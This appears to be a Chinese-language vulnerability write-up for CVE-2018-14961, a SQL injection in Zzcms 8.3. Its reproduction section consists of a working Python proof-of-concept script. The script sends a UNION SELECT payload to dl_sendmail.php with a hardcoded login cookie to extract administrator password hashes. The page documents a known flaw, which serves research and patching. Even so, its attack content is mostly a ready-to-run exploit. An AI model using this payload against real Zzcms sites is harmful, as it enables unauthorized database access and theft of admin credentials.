 # （CVE-2018-14961）Zzcms 8.3 前台 sql 注入

> 原文：[http://book.iwonder.run/0day/Zzcms/CVE-2018-14961.html](http://book.iwonder.run/0day/Zzcms/CVE-2018-14961.html)

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

```
#!/usr/bin/env python
#Author:Sublime
#coding:utf-8
import requests as req

url = "http://0-sec.org:8080/dl/dl_sendmail.php"
cookies = {'UserName':'test','PassWord':'81dc9bdb52d04dc20036dbd8313ed055'}
data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

q = req.post(url,data,cookies=cookies,allow_redirects=False)
print q.status_code
print q.content 
```

测试结果为：

![image](img/8bf9191655ef98eb7338814611805602.png)

## 参考链接

> [https://www.anquanke.com/post/id/156660](https://www.anquanke.com/post/id/156660)

